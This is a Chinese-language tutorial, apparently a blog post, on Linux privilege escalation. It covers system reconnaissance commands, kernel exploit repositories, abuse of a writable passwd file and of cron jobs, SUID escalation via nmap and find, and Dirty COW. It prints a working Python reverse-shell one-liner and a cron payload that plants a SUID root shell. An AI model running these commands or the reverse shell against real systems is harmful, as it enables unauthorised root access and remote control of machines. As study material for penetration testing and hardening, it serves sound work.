 ```yaml
---
categories:
    - 提权
tags:
    - 提权
    - Linux
---
```

### 基础信息搜集命令
1.查看内核，操作系统和设备信息
```
uname -a 打印所有可用的系统信息
uname -r 内核版本
uname -n 系统主机名。
uname -m 查看系统内核架构（64位/32位）
hostname 系统主机名
cat /proc/version 内核信息
cat /etc/*-release 分发信息
cat /etc/issue 分发信息
cat /proc/cpuinfo CPU信息
```
2.用户和群组

```
cat /etc/passwd 列出系统上的所有用户
cat /etc/group 列出系统上的所有组
grep -v -E "^# " /etc/passwd | awk -F: '$3 == 0 { print $1}' 列出所有的超级用户账户
whoami 查看当前用户
w 谁目前已登录，他们正在做什么
last 最后登录用户的列表
lastlog 所有用户上次登录的信息
lastlog –u %username% 有关指定用户上次登录的信息
lastlog |grep -v "Never" 最后登录的用户
```
3.用户和权限信息：

```
id 当前用户信息
cat /etc/sudoers 谁被允许以root身份执行
sudo -l 当前用户可以以root身份执行操作
```
4.环境信息

```
env 显示环境变量
set 现实环境变量
echo %PATH 路径信息
history 显示当前用户的历史命令记录
pwd 输出工作目录
cat /etc/profile 显示默认系统变量
cat /etc/shells 显示可用的shell
```
### 内核漏洞提权

查看发行版

```
cat /etc/issue
cat /etc/*-release
```
查看内核版本

```
uanme -a
```
查看安装程序

```
dpkg -l
rpm -qa  (centos 默认安装)
```

通过一些现有的exp，上传到目标主机，执行exp，直接获取root权限

github地址
```
https://github.com/SecWiki/linux-kernel-exploits
```
查询可利用的

```
https://github.com/mzet-/linux-exploit-suggester
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-9/005.png)

#### hash爆破
   如果passwd可写，我们就可以把root的密码字段(x)替换成一个已知密码的hash（比如本机shadow里面的root密码hash），这样系统在验证密码时以passwd的为准，密码就已知了。如果shadow可读，我们可以读走root的hash，然后用hashcat或者john暴力破解之。
   
#### 计划任务

系统内可能会有一些定时执行的任务，一般这些任务由crontab来管理，具有所属用户的权限。非root权限的用户是不可以列出root用户的计划任务的。但是/etc/内系统的计划任务可以被列出

```
ls -l /etc/cron*
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-9/006.png)

默认这些程序以root权限执行，如果有幸遇到一个把其中脚本配置成任意用户可写的管理员，我们就可以修改脚本等回连rootshell了

eg：
如果里面有个 1.python


```
ls -al /tmp/1.py //查看是否有w权限

cat -al /tmp/1.py //写入代码 import os os.system('cp /bin/sh /tmp/sh') os.system('chmod u+s /tmp/sh')

当到了计划执行时间，就会以 root 权限执行 1.py，即将 /bin/sh 复制到 /tmp/sh  
我们只需要进入 /tmp，执行 ./sh 可获取 root
```
### suid 提权

SUID可以让调用者以文件拥有者的身份运行该文件，所以我们利用SUID提权的思路就是运行root用户所拥有的SUID的文件，那么我们运行该文件的时候就需要获得root用户的身份了。  
目前可用来提权delinux可行性文件列表

```
nmap
vim
find
bash
more
less
nano
cp
```
通过以下命令查找可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-9/007.png)

除此之外还有如下命令，不同系统适用于不同命令

```
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} ;
```
#### Nmap

较旧版本的Nmap（2.02至5.21）带有交互模式，从而允许用户执行shell命令。由于Nmap位于上面使用root权限执行的二进制文件列表中，因此可以使用交互式控制台来运行具有相同权限的shell。

```
nmap -V
```
为了启动交互模式，可以使用Nmap参数“nmap --interactive”。
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-9/008.png)

以下命令将提供一个提权后的shell

```
nmap> !sh
sh-3.2# whoami
root
```
![image](https://raw.githubusercontent.com/saf3d0s/saf3d0s.github.io/master/images/2020-9-9/009.png)

此外，还有一个Metasploit模块，也可以通过SUID Nmap二进制文件进行提权。
```
exploit/unix/local/setuid_nmap
```
#### find
find命令 -exec参数可以用来指定系统命令，如果有py环境，可以直接将root权限,py反弹

```
find test -exec python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" \;
```



### 脏牛提权

漏洞范围:  
大于2.6.22版本  
2007年发行，到2016年10月18日修复)
危害：  
低权限的用户可利用这一漏洞在本地进行提权  
原理：  
linux内核的子系统在处理写入时复制至产生了竞争条件，恶意用户可利用此漏洞来获取高权限，对只读内存映射进行访问。  
竞争条件，指的是任务执行顺序异常，可导致应用奔溃，或令攻击者有机可乘，进一步执行其他代码，利用这一漏洞，攻击者可在其目标系统提升权限，甚至可能获取到root权限。  
EXP下载  

```
https://github.com/FireFart/dirtycow
```
